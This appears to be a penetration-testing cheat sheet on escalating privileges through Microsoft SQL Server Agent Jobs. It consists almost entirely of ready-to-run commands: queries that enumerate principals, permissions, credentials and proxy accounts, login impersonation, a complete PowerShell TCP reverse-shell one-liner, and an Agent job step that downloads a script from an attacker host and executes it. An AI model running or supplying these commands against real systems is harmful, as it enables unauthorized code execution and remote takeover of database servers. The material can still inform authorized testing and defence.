 ```yaml
---
title: "MSSQL Agent Jobs"
date: 2024-8-3
tags: ["mssql", "database", "Windows", "agent jobs", "privesc"]
---
```


### 1. Pre-check

<div>

```console
# List principals
SELECT name FROM sys.database_principals;
```

```console
# Check privilege over a principal from current user
SELECT entity_name, permission_name FROM fn_my_permissions('<PRINCIPAL>', 'USER');
```

```console
# Fix : Cannot resolve the collation conflict between "Latin1_General_CI_AI" and "SQL_Latin1_General_CP1_CI_AS"
SELECT entity_name collate DATABASE_DEFAULT,permission_name collate DATABASE_DEFAULT FROM fn_my_permissions('<PRINCIPAL>', 'USER');
```

```console
# Check SQL credentials
SELECT name, credential_identity FROM sys.credentials;
```

</div>

### 2. Check proxy account name and permissions

<div>

```console
# Create a table to store info
CREATE TABLE proxies (subsystem_id INT PRIMARY KEY NOT NULL, subsystem_name varchar(255), proxy_id INT, proxy_name varchar(255));
```

```console
# Insert proxy info into table
EXECUTE AS LOGIN='<PRINCIPAL>'; INSERT proxies EXEC msdb.dbo.sp_enum_proxy_for_subsystem;
```

```console
# Show proxy info
SELECT subsystem_name, proxy_name FROM proxies;
```

</div>

### 3. Create agent job

#### Powershell #2

<div>

```console
$client = New-Object System.Net.Sockets.TCPClient('<LOCAL_IP>',<LOCAL_PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

</div>

#### Create job

<div>

```console
USE msdb; EXEC AS LOGIN='<PRINCIPAL>'; EXEC dbo.sp_add_job @job_name=N'ANYTHING'; EXEC dbo.sp_add_jobserver @job_name=N'ANYTHING'; EXEC dbo.sp_add_jobstep @job_name = N'ANYTHING', @step_name=N'ExecPayload', @subsystem=N'CmdExec', @command='powershell.exe iex(iwr http://<LOCAL_IP>/shell.ps1)|iex', @retry_attempts=5, @retry_interval=5, @proxy_name=N'<PROXY_NAME>'; EXEC dbo.sp_start_job @job_name = N'ANYTHING';
```

</div>

<br>